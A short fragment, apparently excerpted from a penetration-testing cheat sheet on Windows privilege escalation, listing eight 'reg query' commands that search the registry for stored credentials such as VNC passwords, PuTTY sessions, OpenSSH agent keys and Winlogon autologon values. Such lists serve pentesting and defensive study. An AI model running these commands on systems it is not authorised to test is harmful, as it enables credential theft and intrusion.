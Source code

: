 https://steflan-security.com/windows-privilege-escalation-credential-harvesting/
```
reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
```
```
reg query “HKCU\Software\ORL\WinVNC3\Password”
```
```
reg query “HKCU\Software\TightVNC\Server”
```
```
reg query “HKCU\Software\OpenSSH\Agent\Key”
```
```
reg query “HKCU\Software\SimonTatham\PuTTY\Sessions”
```
```
reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon”
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```
